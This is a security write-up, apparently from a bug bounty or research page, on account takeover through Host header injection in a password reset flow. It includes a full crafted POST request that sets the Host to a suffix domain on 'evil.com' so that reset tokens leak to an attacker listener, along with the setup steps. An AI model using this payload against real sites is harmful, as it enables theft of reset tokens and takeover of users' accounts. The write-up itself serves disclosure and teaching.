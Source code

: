 # Account takeover using Host header injection

**Description:**

Most web applications that involves user authentication must implement password reset feature to allow its users accessing their account on password lost.
The reset password flow is fairly simple -

1. [Client] Submit username/email using a form
2. [Server] Generates a temporary reset token that will be linked to the requested username
3. [Server] Sends an email to the client using SMTP with the reset link
4. [Client] Receives an email with a link that points to the server's address with the secret token

## Scenario 1

Website that serves an ASP application with an open registration allow its users to cover their password using `Lost Password` feature.

After registering for a user, I tried to figure how does the password recovery procedure works, lets start by recovering our own account and check our email.

We have received a link that points to the application domain with the reset token in the `rt` parameter -

![Reset link](https://i.gyazo.com/e387462b7f43e086fe6126964715032d.png)

So what is the scenario here? very simple, inject our own controlled domain that hosts a webserver so when the user clicks on the link we will get his token immediately.  
You might notice that the link arrives in an hyperlink, which hides the hostname within, might gain us a few more stealth points.

When I hit back the reset form, I tried a few techniques that kept failing, ex: send `X-Forwarded-Host` header, replace `Host` header with our own one.

After fuzzing around the `Host` header, I have found that the server must receive the whole original domain without any modifications, so how can we still control it and keep it whole?

![Huh?](https://media.giphy.com/media/kc0kqKNFu7v35gPkwB/giphy.gif)

Setting our controlled domain as **suffix** within the `Host` header bypass the server's check, but also sends us an email pointing to our **domain** (evil.com)!
The modified password reset request -

```
POST /account/LostPassword HTTP/1.1
Host: redacted.com.evil.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate

__RequestVerificationToken=[VerificationToken]&Email=[InputEmail]
```

We received the same email body with a modified hostname within the Hyperlink, which has the original domain as our subdomain `redacted.com.evil.com`.

To complete the PoC we need to either create an `A` record at `evil.com` for `redacted.com` **or** just set it in the `hosts` file (enough for this PoC).

After settings our listener on port 80 and hitting the link, **we got the victim's token and we're able to reset his password**.

![Voila](https://i.gyazo.com/be3039cd5ef990179e3c574b9479cf3f.png)
